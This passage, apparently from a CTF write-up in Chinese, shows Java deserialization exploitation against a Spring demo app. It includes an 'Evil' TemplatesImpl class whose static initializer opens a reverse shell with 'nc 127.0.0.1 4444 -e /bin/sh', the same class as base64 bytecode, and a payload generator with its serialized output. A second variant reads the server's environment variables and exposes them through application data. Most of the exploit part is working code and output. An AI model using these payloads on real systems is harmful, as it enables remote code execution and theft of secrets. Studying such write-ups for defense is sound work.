接下来 `TemplatesImpl.newTransformer()` 会将 `_bytecodes` 的字节定义成一个 java 类并进行初始化.

此时我们需要让恶意类的静态初始化块 `<clinit>` 执行 `Runtime.getRuntime().exec("nc 127.0.0.1 4444 -e /bin/sh");` ，将shell反弹到我们的 rev-shell.

我们先编写恶意类 Evil.

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

public class Evil extends AbstractTranslet {

   static {
      try {
         Runtime.getRuntime().exec("nc 127.0.0.1 4444 -e /bin/sh");
      }
      catch (Exception e) {

      }
   }

   public Evil() {

   }
   
   public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, 
                        com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, 
                        com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) {
                           
   }
   
   public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, 
                        com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) {
                           
   }
}
```

编译并编码为 base64，这样便获得了接下来要注入的 `byte[]` .

```powershell
$base64 = [Convert]::ToBase64String([IO.File]::ReadAllBytes("Evil.class"))
$base64
```

`yv66vgAAADQAIQoABwAUCgAVABYIABcKABUAGAcAGQcAGgcAGwEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIPGNsaW5pdD4BAA1TdGFja01hcFRhYmxlBwAZAQAKU291cmNlRmlsZQEACUV2aWwuamF2YQwACAAJBwAcDAAdAB4BABxuYyAxMjcuMC4wLjEgNDQ0NCAtZSAvYmluL3NoDAAfACABABNqYXZhL2xhbmcvRXhjZXB0aW9uAQAERXZpbAEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABgAHAAAAAAAEAAEACAAJAAEACgAAACEAAQABAAAABSq3AAGxAAAAAQALAAAACgACAAAADgAEABAAAQAMAA0AAQAKAAAAGQAAAAQAAAABsQAAAAEACwAAAAYAAQAAABYAAQAMAA4AAQAKAAAAGQAAAAMAAAABsQAAAAEACwAAAAYAAQAAABsACAAPAAkAAQAKAAAARwACAAEAAAAOuAACEgO2AARXpwAES7EAAQAAAAkADAAFAAIACwAAABIABAAAAAcACQALAAwACQANAAwAEAAAAAcAAkwHABEAAAEAEgAAAAIAEw==`

我们将其嵌入 Dog，之后便可以作为 `_bytecodes` 在初始化时执行命令.

// 这里也可以通过读入文件实现.

```java
import com.example.demo.Dog.Dog;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashSet;

public class PayloadGenerator {

    public static void main(String[] args) throws Exception {

        String maliciousClassBase64 = "yv66vgAAADQAIQoABwAUCgAVABYIABcKABUAGAcAGQcAGgcAGwEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIPGNsaW5pdD4BAA1TdGFja01hcFRhYmxlBwAZAQAKU291cmNlRmlsZQEACUV2aWwuamF2YQwACAAJBwAcDAAdAB4BABxuYyAxMjcuMC4wLjEgNDQ0NCAtZSAvYmluL3NoDAAfACABABNqYXZhL2xhbmcvRXhjZXB0aW9uAQAERXZpbAEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABgAHAAAAAAAEAAEACAAJAAEACgAAACEAAQABAAAABSq3AAGxAAAAAQALAAAACgACAAAADgAEABAAAQAMAA0AAQAKAAAAGQAAAAQAAAABsQAAAAEACwAAAAYAAQAAABYAAQAMAA4AAQAKAAAAGQAAAAMAAAABsQAAAAEACwAAAAYAAQAAABsACAAPAAkAAQAKAAAARwACAAEAAAAOuAACEgO2AARXpwAES7EAAQAAAAkADAAFAAIACwAAABIABAAAAAcACQALAAwACQANAAwAEAAAAAcAAkwHABEAAAEAEgAAAAIAEw==";

        TemplatesImpl templates = new TemplatesImpl();
        byte[] classBytes = Base64.getDecoder().decode(maliciousClassBase64);

        setField(templates, "_bytecodes", new byte[][]{classBytes});
        setField(templates, "_name", "seizer");
        setField(templates, "_tfactory", new TransformerFactoryImpl());
        setField(templates, "_class", null);

        Dog dog = new Dog(1, "puppyName", "puppyBreed", 1);
        setField(dog, "object", "placeholder");
        setField(dog, "methodName", "toString");
        setField(dog, "paramTypes", new Class[] {});
        setField(dog, "args", new Object[] {});

        HashSet<Dog> set = new HashSet<>();
        set.add(dog);

        setField(dog, "object", templates);
        setField(dog, "methodName", "newTransformer");
        setField(dog, "paramTypes", new Class[] {});
        setField(dog, "args", new Object[] {});

        try (
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(baos)
        ) {
            oos.writeObject(set);
            String b64 = Base64.getEncoder().encodeToString(baos.toByteArray());
            System.out.println(b64);
        }
    }

    private static void setField(Object target, String name, Object value) throws Exception {
        Field field = target.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(target, value);
    }
}

```

`rO0ABXNyABFqYXZhLnV0aWwuSGFzaFNldLpEhZWWuLc0AwAAeHB3DAAAABA/QAAAAAAAAXNyABhjb20uZXhhbXBsZS5kZW1vLkRvZy5Eb2f3sSiFCr6V6gIACUkAA2FnZUkABmh1bmdlckkAAmlkWwAEYXJnc3QAE1tMamF2YS9sYW5nL09iamVjdDtMAAVicmVlZHQAEkxqYXZhL2xhbmcvU3RyaW5nO0wACm1ldGhvZE5hbWVxAH4ABEwABG5hbWVxAH4ABEwABm9iamVjdHQAEkxqYXZhL2xhbmcvT2JqZWN0O1sACnBhcmFtVHlwZXN0ABJbTGphdmEvbGFuZy9DbGFzczt4cAAAAAEAAAAyAAAAAXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAB0AApwdXBweUJyZWVkdAAObmV3VHJhbnNmb3JtZXJ0AAlwdXBweU5hbWVzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3EAfgAGTAAFX25hbWVxAH4ABEwAEV9vdXRwdXRQcm9wZXJ0aWVzdAAWTGphdmEvdXRpbC9Qcm9wZXJ0aWVzO3hwAAAAAP////91cgADW1tCS/0ZFWdn2zcCAAB4cAAAAAF1cgACW0Ks8xf4BghU4AIAAHhwAAADkcr+ur4AAAA0ACEKAAcAFAoAFQAWCAAXCgAVABgHABkHABoHABsBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAJdHJhbnNmb3JtAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACDxjbGluaXQ+AQANU3RhY2tNYXBUYWJsZQcAGQEAClNvdXJjZUZpbGUBAAlFdmlsLmphdmEMAAgACQcAHAwAHQAeAQAcbmMgMTI3LjAuMC4xIDQ0NDQgLWUgL2Jpbi9zaAwAHwAgAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEABEV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAYABwAAAAAABAABAAgACQABAAoAAAAhAAEAAQAAAAUqtwABsQAAAAEACwAAAAoAAgAAAA4ABAAQAAEADAANAAEACgAAABkAAAAEAAAAAbEAAAABAAsAAAAGAAEAAAAWAAEADAAOAAEACgAAABkAAAADAAAAAbEAAAABAAsAAAAGAAEAAAAbAAgADwAJAAEACgAAAEcAAgABAAAADrgAAhIDtgAEV6cABEuxAAEAAAAJAAwABQACAAsAAAASAAQAAAAHAAkACwAMAAkADQAMABAAAAAHAAJMBwARAAABABIAAAACABNwdAAGc2VpemVycHcBAHh1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAB4`


## Week 6

### 附加挑战

由于目标不出网，无法反弹 shell ，所以我们可以修改23题的 Evil.java ，直接把 env 写在前端.

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

public class Evil extends AbstractTranslet {

   static {
    try {
        Object reqAttrs = Class.forName("org.springframework.web.context.request.RequestContextHolder")
                               .getMethod("getRequestAttributes").invoke(null);
        if (reqAttrs != null) {
            Object req = Class.forName("org.springframework.web.context.request.ServletRequestAttributes")
                              .getMethod("getRequest").invoke(reqAttrs);
            Object servletContext = req.getClass().getMethod("getServletContext").invoke(req);
            Object wac = Class.forName("org.springframework.web.context.support.WebApplicationContextUtils")
                              .getMethod("getWebApplicationContext", Class.forName("javax.servlet.ServletContext"))
                              .invoke(null, servletContext);
            if (wac != null) {
                Class<?> dogServiceClass = Class.forName("com.example.demo.Dog.DogService");
                Object dogService = wac.getClass().getMethod("getBean", Class.class).invoke(wac, dogServiceClass);

                java.lang.reflect.Field dogsField = dogServiceClass.getDeclaredField("dogs");
                dogsField.setAccessible(true);
                @SuppressWarnings("unchecked")
                java.util.Map<Integer,Object> dogs = (java.util.Map<Integer,Object>) dogsField.get(dogService);

                Class<?> dogClass = Class.forName("com.example.demo.Dog.Dog");
                java.lang.reflect.Constructor<?> ctor = dogClass.getDeclaredConstructor(int.class, String.class, String.class, int.class);
                ctor.setAccessible(true);

                String envStr = java.lang.System.getenv().toString();
                Object newDog = ctor.newInstance(Integer.valueOf(9999), envStr, "env", Integer.valueOf(1));

                dogs.put(Integer.valueOf(9999), newDog);
            }
        }
    } catch (Throwable t) {

    }
}

   public Evil() {

   }
   
   public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, 
                        com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, 
                        com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) {
                           
   }
   
   public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, 
                        com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) {
                           
   }
}
```


---

Copyright © 2025 CopperKoi